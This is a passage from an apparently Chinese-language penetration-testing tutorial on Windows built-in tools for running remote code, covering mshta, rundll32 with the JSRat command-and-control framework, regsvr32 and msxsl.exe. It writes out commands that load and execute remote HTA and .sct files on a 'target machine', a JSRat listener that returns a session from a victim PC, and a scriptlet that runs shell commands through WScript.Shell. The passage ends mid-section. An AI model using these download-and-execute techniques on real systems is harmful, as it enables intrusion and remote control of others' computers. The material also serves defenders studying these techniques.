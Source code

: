 **2.然后再在目标机器执行前面生成的hta：**

```bash
mshta http://192.168.28.128/run.hta
```





### 12.rundll32

其实还是依赖于`WScript.shell`这个组件在这里我们使用`JSRat`来做演示，JSRat是一个命令和控制框架，仅为rundll32.exe和regsvr32.exe生成恶意程序(项目地址：https://github.com/Hood3dRob1n/JSRat-Py.git)。

1.开始运行JSRat，监听本地8888端口。

```bash
./JSRat.py -i 192.168.0.115 -p 8888
```

2.通过url访问，可以查看到恶意代码，复制上面生成的代码

3.在受害者PC运行该代码，将成功返回一个会话





### 13.regsvr32

Regsvr32命令用于注册COM组件，是Windows系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行

在目标机上执行：

```bash
regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll
# file.sct需要我们自己来构造
```

可以通过自己构造.sct文件中要执行的命令，去下载执行我们的程序(这里以弹计算器为例)：

```bash
<?XML version="1.0"?>
<scriptlet> 
    <registration progid="ShortJSRAT" classid="{10001111-0000-0000-0000-0000FEEDACDC}" > 
        <script language="JScript">
        <![CDATA[ ps = "cmd.exe /c calc.exe"; new ActiveXObject("WScript.Shell").Run(ps,0,true); ]]> 
        </script> 
    </registration> 
</scriptlet>
```



### 14.MSXSL.EXE

msxsl.exe是微软用于命令行下处理XSL的一个程序，所以通过他，我们可以执行JavaScript进而执行系统命令。

下载地址为：https://www.microsoft.com/en-us/download/details.aspx?id=21714

msxsl.exe 需要接受两个文件，XML及XSL文件，可以远程加载，具体方式如下：
